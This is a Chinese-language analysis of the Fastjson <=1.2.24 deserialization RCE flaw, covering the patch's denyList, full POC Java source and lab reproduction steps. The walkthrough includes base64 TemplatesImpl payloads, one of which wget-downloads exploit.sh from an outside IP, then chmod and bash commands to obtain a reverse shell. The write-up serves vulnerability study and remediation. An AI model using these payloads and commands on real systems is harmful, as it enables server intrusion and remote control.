# Fastjson反序列化漏洞分析 #


## 1.&emsp;漏洞描述 ##

* 漏洞简述： 2017年3月15日，fastjson官方主动爆出fastjson在1.2.24及之前版本存在远程代码执行高危安全漏洞。攻击者可以通过此漏洞远程执行恶意代码来入侵服务器。
* 影响版本： fastjson <= 1.2.24

## 2.&emsp;漏洞简介 ##

&emsp;&emsp;java处理JSON数据有三个比较流行的类库，gson(google维护)、jackson、以及今天的主角fastjson，fastjson是阿里巴巴一个开源的json相关的java library，地址在这里，https://github.com/alibaba/fastjson，Fastjson可以将java的对象转换成json的形式，也可以用来将json转换成java对象，效率较高，被广泛的用在web服务以及android上，它的JSONString（）方法可以将java的对象转换成json格式，同样通过parseObject方法可以将json数据转换成java的对象。

Fastjson序列化和反序列化：

* Fastjson序列化：通过JSON.toJSONString()方法，将对象转化成JSON格式的字符串
* Fastjson反序列化：JSON.parseObject()方法，将JSON格式的字符串转化成对象

## 3.&emsp;漏洞原理分析 ##

### 3.1 &emsp;源码补丁分析 ###

通过github上发布的更新补丁的源码比较可以看到主要的更新在这个checkAutoType函数上，而这个函数的主要功能就是添加了黑名单，将一些常用的反序列化利用库都添加到黑名单中。

[github补丁源码diff](https://github.com/alibaba/fastjson/commit/d52085ef54b32dfd963186e583cbcdfff5d101b5 "https://github.com/alibaba/fastjson/commit/d52085ef54b32dfd963186e583cbcdfff5d101b5")



这里构造了一个denyList数组，主要利用黑名单机制把常用的反序列化利用库都添加到黑名单中，主要有：

```java
denyList = "bsh,com.mchange,com.sun.,java.lang.Thread,java.net.Socket,java.rmi,javax.xml,org.apache.bcel,o
rg.apache.commons.beanutils,org.apache.commons.collections.Transformer,org.apache.commons.collec
tions.functors,org.apache.commons.collections4.comparators,org.apache.commons.fileupload,org.apa
che.myfaces.context.servlet,org.apache.tomcat,org.apache.wicket.util,org.codehaus.groovy.runtime
,org.hibernate,org.jboss,org.mozilla.javascript,org.python.core,org.springframework".split(",");

```

同时添加了checkAutoType类：



**源码**

```java
public Class<?> checkAutoType(String typeName) {
        if (typeName == null) {
             return null;
         }

         final String className = typeName.replace('$', '.');

         if (autoTypeSupport) {
             for (int i = 0; i < denyList.length; ++i) {
                 String deny = denyList[i];
                 if (className.startsWith(deny)) {
                     throw new JSONException("autoType is not support. " + typeName);
                 }
             }
         }

         Class<?> clazz = TypeUtils.getClassFromMapping(typeName);
         if (clazz == null) {
             clazz = derializers.findClass(typeName);
         }

         if (clazz != null) {
             return clazz;
         }

         for (int i = 0; i < acceptList.length; ++i) {
             String accept = acceptList[i];
             if (className.startsWith(accept)) {
                 return TypeUtils.loadClass(typeName, defaultClassLoader);
             }
         }

         if (autoTypeSupport) {
             clazz = TypeUtils.loadClass(typeName, defaultClassLoader);
         }

         if (clazz != null) {
             if (ClassLoader.class.isAssignableFrom(clazz) || DataSource.class.isAssignableFrom(clazz)) {
                 throw new JSONException("autoType is not support. " + typeName);
             }

             if (derializers.get(clazz) != null) {
                 return clazz;
             }

             if (Throwable.class.isAssignableFrom(clazz)) {
                 return clazz;
             }
         }

         // java.awt.Desktop

         if (!autoTypeSupport) {
             throw new JSONException("autoType is not support. " + typeName);
         }

         return clazz;
     }
```

我们可以看到其核心代码就是:

```java
 if (autoTypeSupport) {
     for (int i = 0; i < denyList.length; ++i) {
         String deny = denyList[i];
         if (className.startsWith(deny)) {
             throw new JSONException("autoType is not support. " + typeName);
         }
     }
 }
```

直接遍历denyList数组，只要引用的库中是以我们的黑名单中的字符串开头的就直接抛出异常中断运行。

### 3.2 &emsp;源码分析 ###

通过github上发布的[POC](https://github.com/shengqi158/fastjson-remote-code-execute-poc "https://github.com/shengqi158/fastjson-remote-code-execute-poc")进行源代码分析：

**Test.java：**

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Test extends AbstractTranslet {
    public Test() throws IOException {
        Runtime.getRuntime().exec("/usr/bin/touch /tmp/success.txt");
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }

    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {

    }

    public static void main(String[] args) throws Exception {
        Test t = new Test();
    }
}
```

**POC.java：**

```java
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.io.IOUtils;
import org.apache.commons.codec.binary.Base64;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;

/**
 * Created by web on 2017/4/29.
 */
public class Poc {

    public static String readClass(String cls){
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            IOUtils.copy(new FileInputStream(new File(cls)), bos);
        } catch (IOException e) {
            e.printStackTrace();
        }
        return Base64.encodeBase64String(bos.toByteArray());

    }

    public static void  test_autoTypeDeny() throws Exception {
        ParserConfig config = new ParserConfig();
        final String fileSeparator = System.getProperty("file.separator");
        final String evilClassPath = System.getProperty("user.dir") + "/target/classes/person/Test.class";
        String evilCode = readClass(evilClassPath);
        final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
        String text1 = "{\"@type\":\"" + NASTY_CLASS +
                "\",\"_bytecodes\":[\""+evilCode+"\"],'_name':'a.b','_tfactory':{ },\"_outputProperties\":{ }," +
                "\"_name\":\"a\",\"_version\":\"1.0\",\"allowedProtocols\":\"all\"}\n";
        System.out.println(text1);
        //String personStr = "{'name':"+text1+",'age':19}";
        //Person obj = JSON.parseObject(personStr, Person.class, config, Feature.SupportNonPublicField);
        Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);
        //assertEquals(Model.class, obj.getClass());

    }
    public static void main(String args[]){
        try {
            test_autoTypeDeny();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

首先走读这一段POC源码，我们可以看到Test.java主要实现了一个类，这个类利用`Runtime.getRuntime().exec("/usr/bin/touch /tmp/success.txt");`语句执行在/tmp目录下生产success.txt文件的命令，而POC.java文件中主要执行test_autoTypeDeny()函数，函数获取Test.java文件编译完成后的.class文件然后进行base64编码，将编码后的字符串赋值给`_bytecodes`加上POC构造成漏洞利用payload：_

```java
text1={"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","bytecodes":
["yv66vgAAADEANAcAAgEAC3BlcnNvbi9UZXN0BwAEAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbH
RjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEABjxpbml0PgEAAygpVgEACkV4Y2VwdGlvbnMHAAkBABNqYXZhL2lvL0lPRX
hjZXB0aW9uAQAEQ29kZQoAAwAMDAAFAAYKAA4AEAcADwEAEWphdmEvbGFuZy9SdW50aW1lDAARABIBAApnZXRSdW50aW1lAQ
AVKClMamF2YS9sYW5nL1J1bnRpbWU7CAAUAQAfL3Vzci9iaW4vdG91Y2ggL3RtcC9zdWNjZXNzLnR4dAoADgAWDAAXABgBAA
RleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7AQAPTGluZU51bWJlclRhYmxlAQASTG9jYW
xWYXJpYWJsZVRhYmxlAQAEdGhpcwEADUxwZXJzb24vVGVzdDsBAAl0cmFuc2Zvcm0BAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS
94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdG
VyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOy
lWAQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhpdGVyYXRvcg
EANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb2
0vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQByKExjb20vc3
VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC
9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWBwAnAQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybm
FsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYW
wvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAARtYWluAQAWKFtMamF2YS9sYW5nL1N0cmluZzspVgcALQEAE2
phdmEvbGFuZy9FeGNlcHRpb24KAAEADAEABGFyZ3MBABNbTGphdmEvbGFuZy9TdHJpbmc7AQABdAEAClNvdXJjZUZpbGUBAA
lUZXN0LmphdmEAIQABAAMAAAAAAAQAAQAFAAYAAgAHAAAABAABAAgACgAAAEAAAgABAAAADiq3AAu4AA0SE7YAFVexAAAAAg
AZAAAADgADAAAADwAEABAADQARABoAAAAMAAEAAAAOABsAHAAAAAEAHQAeAAEACgAAAEkAAAAEAAAAAbEAAAACABkAAAAGAA
EAAAAVABoAAAAqAAQAAAABABsAHAAAAAAAAQAfACAAAQAAAAEAIQAiAAIAAAABACMAJAADAAEAHQAlAAIABwAAAAQAAQAmAA
oAAAA/AAAAAwAAAAGxAAAAAgAZAAAABgABAAAAGQAaAAAAIAADAAAAAQAbABwAAAAAAAEAHwAgAAEAAAABACgAKQACAAkAKg
ArAAIABwAAAAQAAQAsAAoAAABBAAIAAgAAAAm7AAFZtwAuTLEAAAACABkAAAAKAAIAAAAcAAgAHQAaAAAAFgACAAAACQAvAD
AAAAAIAAEAMQAcAAEAAQAyAAAAAgAz"],'name':'a.b','tfactory':{ },"outputProperties":{
},"name":"a","version":"1.0","allowedProtocols":"all"}
```

通过`Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);`执行反序列化操作，执行命令。

在这个poc中，最核心的部分是_bytecodes，它是要执行的代码，@type是指定的解析类，fastjson会根据指定类去反序列化得到该类的实例，在默认情况下，fastjson只会反序列化公开的属性和域，而com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl中_bytecodes却是私有属性，_name也是私有域，所以在parseObject的时候需要设置Feature.SupportNonPublicField，这样_bytecodes字段才会被反序列化。_tfactory这个字段在TemplatesImpl既没有get方法也没有set方法，这没关系，我们设置_tfactory为{ },fastjson会调用其无参构造函数得_tfactory对象，这样就解决了某些版本中在defineTransletClasses()用到会引用_tfactory属性导致异常退出。

我们的debug操作直接进入`Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);`语句中，进入JSON.class的parseObject函数中，可以看到传入的参数值：



这里debug的操作就不贴上了，感兴趣的可以自己去debug调试一下，贴上一张调用链的图：



主要的流程是：


## 4.&emsp;靶场环境搭建 ##

### 4.1&emsp;环境源码下载 ###

通过github下载含有漏洞环境的web源代码[下载地址](https://raw.githubusercontent.com/yaofeifly/vulhub/master/fastjson/vuln/fastjson-1.0.war "https://raw.githubusercontent.com/yaofeifly/vulhub/master/fastjson/vuln/fastjson-1.0.war")

直接通过MyEclipse导入war包，运行该项目生成页面：



### 4.3&emsp;漏洞复现（远程反弹shell） ###

1.通过浏览器访问环境URL，利用burpsuite对数据包进行拦截，修改数据包发送方式并且插入POST数据`{"name":"feifei",age:12}`，查看效果：



2.构造攻击payload，从自己的服务器中通过wget命令下载exploit.sh反弹shell脚本，payload:



利用上文中的Test.java文件构造下载explot.sh脚本命令，同理也可以通过上文中的POC.java文件将编译好的Test.class文件进行base64编码构造payload：

```java
{"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_bytecodes":
["yv66vgAAADEANAcAAgEAC3BlcnNvbi9UZXN0BwAEAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbH
RjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEABjxpbml0PgEAAygpVgEACkV4Y2VwdGlvbnMHAAkBABNqYXZhL2lvL0lPRX
hjZXB0aW9uAQAEQ29kZQoAAwAMDAAFAAYKAA4AEAcADwEAEWphdmEvbGFuZy9SdW50aW1lDAARABIBAApnZXRSdW50aW1lAQ
AVKClMamF2YS9sYW5nL1J1bnRpbWU7CAAUAQAzL3Vzci9iaW4vd2dldCAtUCAvdG1wIGh0dHA6Ly80NS4zMi4xMjAuOC9leH
Bsb2l0LnNoCgAOABYMABcAGAEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsBAA9MaW
5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQANTHBlcnNvbi9UZXN0OwEACXRyYW5zZm9ybQEApi
hMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbn
Rlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2
VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhkb2N1bWVudAEALUxjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveH
NsdGMvRE9NOwEACGl0ZXJhdG9yAQA1TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYX
RvcjsBAAdoYW5kbGVyAQBBTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW
9uSGFuZGxlcjsBAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy
9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYHACcBADljb20vc3VuL29yZy
9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvVHJhbnNsZXRFeGNlcHRpb24BAAhoYW5kbGVycwEAQltMY29tL3N1bi9vcm
cvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEABG1haW4BABYoW0xqYXZhL2
xhbmcvU3RyaW5nOylWBwAtAQATamF2YS9sYW5nL0V4Y2VwdGlvbgoAAQAMAQAEYXJncwEAE1tMamF2YS9sYW5nL1N0cmluZz
sBAAF0AQAKU291cmNlRmlsZQEACVRlc3QuamF2YQAhAAEAAwAAAAAABAABAAUABgACAAcAAAAEAAEACAAKAAAAQAACAAEAAA
AOKrcAC7gADRITtgAVV7EAAAACABkAAAAOAAMAAAAPAAQAEAANABEAGgAAAAwAAQAAAA4AGwAcAAAAAQAdAB4AAQAKAAAASQ
AAAAQAAAABsQAAAAIAGQAAAAYAAQAAABUAGgAAACoABAAAAAEAGwAcAAAAAAABAB8AIAABAAAAAQAhACIAAgAAAAEAIwAkAA
MAAQAdACUAAgAHAAAABAABACYACgAAAD8AAAADAAAAAbEAAAACABkAAAAGAAEAAAAZABoAAAAgAAMAAAABABsAHAAAAAAAAQ
AfACAAAQAAAAEAKAApAAIACQAqACsAAgAHAAAABAABACwACgAAAEEAAgACAAAACbsAAVm3AC5MsQAAAAIAGQAAAAoAAgAAAB
wACAAdABoAAAAWAAIAAAAJAC8AMAAAAAgAAQAxABwAAQABADIAAAACADM="],'_name':'a.b','_tfactory':{
},"_outputProperties":{ },"_name":"a","_version":"1.0","allowedProtocols":"all"}
```


3.利用burpsuite，把插入页面的数组字段name的值换成我们的攻击payload：



4.查看/tmp目录下成功生成exploit.sh



5.同理我们将第二步的操作`/usr/bin/wget -P /tmp http://xx.xx.xx.xx/exploit.sh`换成`/bin/chmod 777 /tmp/exploit.sh`，重复上述操作，将exploit.sh脚本文件权限变成可读可写可执行，可以看到我们靶机上的exploit.sh的权限已经改变了。



6.依然按照上一步的操作将命令换成`/bin/bash /tmp/exploit.sh`,通过burpsuite继续执行payload，同时在你要反弹shell的服务器中开启端口监听


7.可以看到成功反弹shell，执行任意命令：


## 5.&emsp;修复意见 ##

&emsp;&emsp;升级Fastjson到最新版本。[下载地址：](http://repo1.maven.org/maven2/com/alibaba/fastjson/1.2.28/ "http://repo1.maven.org/maven2/com/alibaba/fastjson/1.2.28/")


## 6.&emsp;参考资料 ##

* [fastjson远程反序列化poc的构造和分析](http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/ "http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/")
